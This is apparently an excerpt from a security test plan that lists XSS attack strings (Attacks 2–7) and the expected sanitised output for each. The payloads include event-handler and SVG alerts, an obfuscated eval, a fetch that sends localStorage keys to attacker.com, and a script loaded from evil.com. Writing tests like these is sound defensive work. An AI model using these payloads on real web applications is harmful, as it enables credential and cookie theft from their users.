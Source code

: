 
#### **Attack 2: Image onerror Event**
```
<img src=x onerror="alert('Hacked')">
```
**Expected Behavior:**
- Displays: `<img src=x onerror="alert('Hacked')">` (as text)
- ❌ **FAILS if**: Alert popup appears or broken image icon appears

---

#### **Attack 3: Credential Theft via Fetch**
```
<img src=x onerror='fetch("https://attacker.com/steal?keys="+localStorage.getItem("function_keys"))'>
```
**Expected Behavior:**
- Displays: Full text as shown above
- ❌ **FAILS if**: Network request to attacker.com appears in DevTools Network tab

---

#### **Attack 4: Stored XSS with Event Handler**
```
<div onclick="alert(document.cookie)">Click Me</div>
```
**Expected Behavior:**
- Displays: `<div onclick="alert(document.cookie)">Click Me</div>` (as text)
- ❌ **FAILS if**: Text becomes clickable and triggers alert

---

#### **Attack 5: Script Tag with src Attribute**
```
<script src="https://evil.com/malicious.js"></script>
```
**Expected Behavior:**
- Displays: Full text as shown above
- ❌ **FAILS if**: Network request to evil.com appears in DevTools

---

#### **Attack 6: SVG with JavaScript**
```
<svg onload="alert('XSS via SVG')"></svg>
```
**Expected Behavior:**
- Displays: `<svg onload="alert('XSS via SVG')"></svg>` (as text)
- ❌ **FAILS if**: Alert popup appears

---

#### **Attack 7: Obfuscated Script**
```
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
```
**Expected Behavior:**
- Displays: Full encoded text
- ❌ **FAILS if**: Alert popup appears

---